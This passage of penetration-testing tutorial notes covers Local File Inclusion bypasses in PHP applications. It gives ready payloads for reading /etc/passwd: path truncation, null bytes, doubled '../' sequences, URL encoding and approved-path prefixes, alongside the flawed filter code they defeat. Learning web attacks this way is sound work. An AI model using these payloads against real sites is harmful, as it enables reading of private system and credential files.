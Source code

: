 We can automate the above with bash:

`$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done non_existing_directory/../../../etc/passwd/./././././././`

#### Null Byte

Appended extensions can be also bypassed with the use of a **null byte** (''%00'' or ''0x00'') in PHP versions < ''5.3.4'':

`/index.php?language=/../../../etc/passwd%00`

### &#x20;Path Traversal Filters

#### &#x20;Search and Replace

The **search and replace** filters is one of the most common defences against LFI; it simply deletes substrings of ''../'':

`$language = str_replace('../', '', $_GET['language']);`

So the payload ''../../../etc/passwd'' becomes ''.languages/etc/passwd''. If it is a **non-recursive** filter, that is, it runs just a single time on the input string, this can be bypassed by doubling up the ''../'' substring:

`/index.php?language=....//....//....//etc/passwd`

Doubling up the ''../'' substring is not the only option: ''..././'', ''..../'', ''....////'' and several other recursive LFI payloads may also work.

#### Character Filters

Some filters may prevent certain LFI-related characters, such as ''.'' and ''/''. This may be bypassed by URL encoding our payload once or twice, for example, ''../../../etc/passwd'' becomes:

`%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64 %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34`

### Approved Paths

Some web applications may included regex to ensure that the file being included is under a defined directory:

`if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) { include($_GET['language']); } else { echo 'Illegal path specified!'; }`

This can be bypassed by including the required directory within the payload:

`/index.php?language=./languages/../../../etc/passwd`

### PHP Filters

> Goal: **Read the source code of PHP files.**

\[\[https://www.php.net/manual/en/filters.php|PHP Filters]] are a type of \[\[https://www.php.net/manual/en/wrappers.php.php|PHP Wrappers]], where we can pass different types of input and have it filtered by the specified filter. To use PHP wrappers, we can use the ''php://'' scheme, and we can access the PHP filter wrapper using ''php://filter/''.


[^1]: Local File Inclusion
[^2]: Remote File Inclusion